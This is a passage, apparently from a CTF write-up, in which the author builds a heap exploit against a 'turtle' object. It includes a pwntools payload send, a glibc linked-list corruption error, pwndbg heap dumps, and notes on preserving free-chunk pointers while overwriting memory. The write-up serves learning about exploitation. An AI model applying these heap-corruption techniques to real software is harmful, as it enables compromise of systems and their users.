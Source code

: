 Sending:

`p.send(str('\x00\x14\x60\x00\x00\x00\x00\x00\xc9\x00\x00\x00\x00\x00\x00\x00'))``
`
The turtle is at `1ddf8b0`...that gives me
` 0x1ddb790 (doubly linked list corruption 0x1ddb790 != 0x8cb34d96c61f4a00 and 0x1ddf8d0 or 0x1ddb790 is broken)
`

The problem is that there's a free block with a forward pointer pointing into the heap to another free chunk 32 bytes below my turtle, so I need to preserve the integrity of that free block. Let me just get a good look at that entire section of the heap at the moment that I do the `memcpy`.

Here's the heap right before `memcpy`:
```code
pwndbg> x /26xg 0x68b1f0
0x68b1f0:	0x00000000006014c0	0x0000000000000021
0x68b200:	0x00007ffff7da2c10	0x0000000000000000
0x68b210:	0x0000000000000000	0x0000000000000021
0x68b220:	0x00007ffff7da2c20	0x000000000068b200
0x68b230:	0x0000000000000000	0x0000000000000021
0x68b240:	0x72383a3040383240	0x000034324936312a
0x68b250:	0x0000000000000020	0x0000000000000021
0x68b260:	0x00007ffff7da2c30	0x0000000000000000
0x68b270:	0x0000000000000000	0x0000000000000021
0x68b280:	0x00007ffff7da2c40	0x000000000068b260
0x68b290:	0x0000000000000000	0x0000000000000021
0x68b2a0:	0x00007ffff7dbe950	0x0000000000000000
0x68b2b0:	0x000000090000005e	0x0000000000000021

pwndbg> x /26xg 0x13088b0
0x13088b0:	0x00000000006014c0	0x0000000000000021
0x13088c0:	0x0000000001312640	0x0000000000000000
0x13088d0:	0x000000150000000c	0x0000000000000021
0x13088e0:	0x000000000133d870	0x0000000001304790
0x13088f0:	0x0000000000000020	0x0000000000000020
0x1308900:	0x00000000013022a0	0x0000000000000000
0x1308910:	0x0000001d0000000c	0x0000000000000021
0x1308920:	0x0000000001342660	0x0000000001335230
0x1308930:	0x0000000000000020	0x0000000000000020
0x1308940:	0x0000000001312650	0x0000000000000000
0x1308950:	0x0000001800000010	0x0000000000000021
0x1308960:	0x00000000013213e0	0x0000000000000000
0x1308970:	0x0000000000000000	0x0000000000000021
```

I have to be a bit careful here, but I should be able to reconstruct this. The `fwd` and `bk` pointers in the free blocks, along with their sizes, have to remain the same in order to not corrupt the heap. While I'm at it, I might also want to keep those message dispatch table indices the same as well.

Let me make sure the heap isn't changing between instances of the program. Here are two instances of the set of 200 bytes on the heap before I overwrite it with `memcpy`:
